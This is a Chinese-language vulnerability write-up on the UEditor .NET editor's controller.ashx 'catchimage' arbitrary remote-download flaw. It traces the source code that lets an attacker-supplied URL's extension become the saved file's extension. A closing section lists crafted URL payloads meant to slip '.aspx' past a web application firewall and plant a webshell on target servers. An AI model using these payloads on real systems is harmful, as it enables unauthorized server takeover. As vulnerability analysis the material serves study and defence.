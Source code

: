 首先下载了ueditor编译器的源码，ueditor实际上不止.net  还有php、jsp的，实战也经常碰到，但是.net的成功率大一点(如果目标出网)，通过理解漏洞代码原理从而更好的去绕waf。
<a name="eGHzg"></a>
## 漏洞poc
首先漏洞的poc是这样子的<br />[http://ip/ueditor/net/controller.ashx?action=catchimage](http://ip/ueditor/net/controller.ashx?action=catchimage)

复现文章 [https://www.yuque.com/aufeng/aufeng_good/dtccn7](https://www.yuque.com/aufeng/aufeng_good/dtccn7)
<a name="xKvG4"></a>
## 代码分析
对controller.ashx进行分析，在63行中如果选择catchimage会进入到CrawlerHandler对象<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664112285165-c21ed5d2-4e7c-4a94-94d9-7eeca3682a97.png#clientId=ucc2d4c27-7518-4&from=paste&height=469&id=u8b287f93&originHeight=586&originWidth=1156&originalType=binary&ratio=1&rotation=0&showTitle=false&size=85900&status=done&style=none&taskId=u4a7be389-e58e-413c-a166-6f01b3dae83&title=&width=924.8)

跟进CrawlerHandler对象，对source传入的值进行判断，如果没有就会报错，有的话就进入Fetch方法中<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664112934903-ad532fe6-b3e0-429c-8db4-01bca64e215e.png#clientId=ucc2d4c27-7518-4&from=paste&height=401&id=u0fbadebc&originHeight=437&originWidth=679&originalType=binary&ratio=1&rotation=0&showTitle=false&size=50608&status=done&style=none&taskId=u3484048d-bc56-4d56-845b-d0eba3637e2&title=&width=623.2000122070312)

在Fetch方法中IsExternalIPAddress判断了source传入的值是不是正常的url，然后用HttpWebRequest.Create的方法去进行远程请求，然后再根据response进行判断响应是不是正常，然后传入的SourceUrl会进入PathFormatter.Format方法中<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664113213767-41ce3df2-859b-47bd-b95b-18a734764ee9.png#clientId=ucc2d4c27-7518-4&from=paste&height=353&id=u4cd1b282&originHeight=499&originWidth=951&originalType=binary&ratio=1&rotation=0&showTitle=false&size=90478&status=done&style=none&taskId=u395e2058-f6fe-4422-9212-e19d7920b3e&title=&width=672.4000244140625)

**那么，ueditor最关键的地方来了，以及如果绕waf等操作**。<br />进入这个方法后PathFormatter.Format，会对传入的SourceUrl赋值给originFileName，然后originFileName会被正则(new Regex(@"[\\\/\:\*\?\042\<\>\|]"))匹配获取后缀名。其中042是代表八进制中的"<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664113717445-c11dfb99-2d67-4b9a-8c6b-ef78d4e7b837.png#clientId=ucc2d4c27-7518-4&from=paste&height=255&id=u001f9956&originHeight=236&originWidth=630&originalType=binary&ratio=1&rotation=0&showTitle=false&size=40455&status=done&style=none&taskId=u5aa5353b-d049-439c-9f86-7b26f10a279&title=&width=682)

实际上获取完后缀名后，这个extension就以及不受其他因素干扰了，然后通过return返回文件后缀值。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664115780843-06aeabeb-af6a-488b-95f1-afb339f03fd0.png#clientId=ucc2d4c27-7518-4&from=paste&height=502&id=u2d216510&originHeight=627&originWidth=1121&originalType=binary&ratio=1&rotation=0&showTitle=false&size=149291&status=done&style=none&taskId=u3a09d052-5337-4d31-b88d-89d02364dbe&title=&width=896.8)

那么回到Fetch方法中就是extension赋值给ServerUrl，然后通过GetResponseStream把响应包中的字节流转换写入到服务器中。那么ueditor编译器漏洞 远程下载利用整个流程就是这样子了。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664115862026-9ce7da79-8dbf-4b4c-b32b-794c14190184.png#clientId=ucc2d4c27-7518-4&from=paste&height=547&id=ue6c450e5&originHeight=684&originWidth=1006&originalType=binary&ratio=1&rotation=0&showTitle=false&size=101779&status=done&style=none&taskId=u22c3f32f-0025-4123-8ecc-0627ceae4a4&title=&width=804.8)
<a name="aH56x"></a>
## 绕waf操作
对原理进行代码分析，这个匹配只是为了把http://X.X.X.X/1.png中的//和.以及*?<>|去除掉，那么网上的文章都是以http://xxx.xxx.xx.xx/1.png?.aspx等形式传入，如果waf对aspx这个后缀进行拦截的话，我们还有很多组合拳的操作可以打,例如：<br />http://xxx.xxx.xx.xx/1.png?.a???s????p?????x <br />http://xxx.xxx.xx.xx/1.png?.a<>s<>p<>x <br />http://xxx.xxx.xx.xx/1.png?.a<""||s<"">p<>x<br />这种形式最后也可以绕过waf部署shell<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664114205665-d1c3cc7c-9274-4b8a-ba89-9e28c12d9554.png#clientId=ucc2d4c27-7518-4&from=paste&height=221&id=u10096aa8&originHeight=158&originWidth=473&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10993&status=done&style=none&taskId=u81246a84-16e2-41a1-ac0c-1457ab463bf&title=&width=661.3999938964844)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664122617892-8294b9e0-5be8-449c-b1ab-6212b92c6fdd.png#clientId=u08471d31-0250-4&from=paste&height=172&id=u68dabc1b&originHeight=141&originWidth=539&originalType=binary&ratio=1&rotation=0&showTitle=false&size=11125&status=done&style=none&taskId=u42d2ff67-b315-4d80-91d1-3388316edcf&title=&width=658.2000122070312)
